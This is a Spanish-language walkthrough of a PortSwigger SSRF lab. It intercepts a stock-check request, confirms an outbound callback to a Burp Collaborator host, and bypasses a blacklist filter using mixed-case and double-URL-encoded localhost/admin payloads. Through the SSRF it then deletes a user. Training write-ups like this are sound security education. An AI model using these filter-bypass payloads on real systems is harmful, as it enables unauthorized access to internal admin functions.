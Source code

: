 ```yaml
---
title: "SSRF with blacklist-based input filter"
description: "Laboratorio de Portswigger sobre SSRF"
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SSRF
tags:
  - Portswigger Labs
  - SSRF
  - SSRF with blacklist-based input filter
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una `función` de `verificación` de `inventario` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, debemos cambiar la `URL` de `verificación` de `inventario` para `acceder` a la `interfaz` de `administración` en `http://localhost/admin` y `eliminar` al usuario `Carlos`. El desarrollador ha implementado dos `medidas` defensivas `débiles` contra `SSRF` que necesitaremos eludir

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-4/image_1.png)

Pulsamos en `View details` y vemos la `descripción` del producto

![](/assets/img/SSRF-Lab-4/image_2.png)

Hacemos `click` sobre la función `Check stock` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-4/image_3.png)

Esta función está `enviando` estos `datos` por `POST`

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
stockApi=http://l1nvttjpdegib5zaazzc93buslycm3as.oastify.com
```

Efectivamente nos llega una `petición` en `Burpsuite Collaborator`

![](/assets/img/SSRF-Lab-4/image_4.png)

Si mandamos un petición con este `payload` nos lo `bloquea` y nos muestra el `mensaje` de `External stock check blocked for security reasons`

```
stockApi=http://localhost/admin
```

De esta forma `evitamos` las `medidas defensivas` contra `SSRF`

```
stockApi=http://LoCaLHost/AdMIn
```

También podemos `ofuscar` el `payload` urlencodeandolo dos veces

```
stockApi=http://%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

Hacemos `click derecho` y `seleccionamos` una de las dos `opciones`

![](/assets/img/SSRF-Lab-4/image_5.png)

Vemos que estamos ante un `panel administrativo`

![](/assets/img/SSRF-Lab-4/image_6.png)

Si pulsamos `Delete` para `borrar` al usuario `carlos` no nos dejará, debido a que no estamos `logueados` como usuario `administrador`

![](/assets/img/SSRF-Lab-4/image_7.png)

Para poder `eliminarlo` debemos usar el `SSRF`

```
stockApi=http://LOCaLhOsT/AdMIN/dELeTe?username=carlos
```
